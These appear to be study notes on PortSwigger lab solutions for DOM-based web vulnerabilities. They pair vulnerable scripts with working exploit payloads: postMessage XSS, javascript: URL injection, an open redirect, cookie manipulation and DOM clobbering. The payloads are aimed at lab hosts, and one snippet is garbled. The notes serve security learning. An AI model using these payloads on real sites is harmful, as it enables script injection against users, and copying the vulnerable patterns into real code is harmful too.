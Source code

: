  **DOM XSS using web messages**


Vulnerable line

```
<script>
    window.addEventListener('message', function(e) {
      eval(e.data);
    });
</script>
```

Event intended to serve ads but we can insert  a script using onload to print

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

From <https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages> 

**DOM XSS using web messages and a JavaScript URL**
Vulnerable script

```
<script>
  window.addEventListener('message', function(e) {
      var url = e.data;
      if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
          location.href = url;
      }
  }, false);
</script>
```



Exploit

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8a21a7f7-d44c-4823-a8d6-e94af7f1b4ff)


**DOM XSS using web messages and JSON.parse**
Vulnerable load-channel 
Load url we can exploit using iframe

```
<script>
  window.addEventListener('message', function(e) {
      var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
      document.body.appendChild(iframe);
      try {
          d = JSON.parse(e.data);
      } catch(e) {
          return;
      }
      switch(d.type) {
          case "page-load":
              ACMEplayer.element.scrollIntoView();
              break;
          case "load-channel":
              ACMEplayer.element.src = d.url;
              break;
          case "player-height-changed":
              ACMEplayer.element.style.width = d.width + "px";
              ACMEplayer.element.style.height = d.height + "px";
              break;
      }
  }, false);
```


Exploit 

```
<iframe src=https://0a3d006f04a506c781ee8a2b00ec001b.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

**DOM-based open redirection**

Open redirection vulnerability  

  ```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```



Exploit 
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/

From <https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection> 

**DOM-based cookie manipulation**
Exploitable code

   ```
<script>
                            document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
     </script>
```

This script stores the current page by URL in the cookie
Exploit

```
<iframe src="https://0a3b006503c790c3802976a800ab00ef.web-security-academy.net/product?productId=1#'%3E%3Csvg/onload=alert(document.cookie)%3E" onload="this.src='https://0a3b006503c790c3802976a800ab00ef.web-security-academy.net/'">
```

**Exploiting DOM clobbering to enable XSS**
Exploit
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6e99b420-a9d9-4573-9b47-fdb5713e5a3d)





```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href=”cid:&quot;onclick=alert(1)//”>
```

Our exploit will trigger when we type in a random comment again
**Clobbering DOM attributes to bypass HTML filters(Explore more)**
lab uses the HTMLJanitor library which is vulnerable to DOM clobbering



1. Go to one of the blog posts and create a comment containing the following HTML: 
<form id=x tabindex=0 onfocus=print()><input id=attributes> 
2. Go to the exploit server and add the following iframe to the body: 
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)"> 
Remember to change the URL to contain your lab ID and make sure that the postId parameter matches the postId of the blog post into which you injected the HTML in the previous step. 
3. Store the exploit and deliver it to the victim. The next time the page loads, the print() function is called. 
The library uses the attributes property to filter HTML attributes. However, it is still possible to clobber the attributes property itself, causing the length to be undefined. This allows us to inject any attributes we want into the form element. In this case, we use the onfocus attribute to smuggle the print() function. 
When the iframe is loaded, after a 500ms delay, it adds the #x fragment to the end of the page URL. The delay is necessary to make sure that the comment containing the injection is loaded before the JavaScript is executed. This causes the browser to focus on the element with the ID "x", which is the form we created inside the comment. The onfocus event handler then calls the print() function. 

From <https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters> 


